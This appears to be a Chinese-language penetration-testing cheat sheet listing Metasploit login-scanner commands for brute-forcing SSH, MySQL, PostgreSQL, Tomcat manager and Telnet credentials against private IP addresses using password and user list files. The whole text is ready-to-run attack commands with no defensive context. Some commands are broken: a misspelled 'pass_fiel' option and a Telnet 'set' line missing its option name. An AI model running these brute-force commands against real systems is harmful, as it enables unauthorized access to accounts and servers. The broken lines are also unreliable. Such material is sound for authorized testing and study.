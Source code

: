 ### 【ssh服务口令猜测】

* **ssh服务口令猜测**
  ```bash
  msf> use auxiliary/scanner/ssh/ssh_login
  set RHOSTS 192.168.80.134
  set USERNAME root
  set PASS_FILE /root/pass.txt
  set THREADS 50
  run
  ```
  
### 【mysql口令攻击】

* **mysql口令攻击**
  ```bash
  msf> use auxiliary/scanner/mysql/mysql_login
  set RHOSTS 192.168.80.130
  set user_file /root/user.txt
  set pass_file /root/pass.txt
  exploit
  ```
  
  
### 【postgresql攻击】

* **postgresql攻击**
  ```bash
  msf> use auxiliary/scanner/postgres/postgres_login
  set RHOSTS 192.168.80.130
  set user_file /root/user.txt
  set pass_fiel /root/pass.txt
  exploit
  ```
  
### 【tomcat攻击】

* **tomcat攻击**
  ```bash
  msf> use auxiliary/scanner/http/tomcat_mgr_login
  set RHOSTS 192.168.1.1
  set PASS_FILE /root/pass.txt
  set USER_FILE /root/user.txt
  exploit
  ```
  
### 【telnet攻击】

* **telnet攻击**
  ```bash
  msf> use auxiliary/scanner/telnet/telnet_login
  set 192.168.1.1
  exploit
  ```
  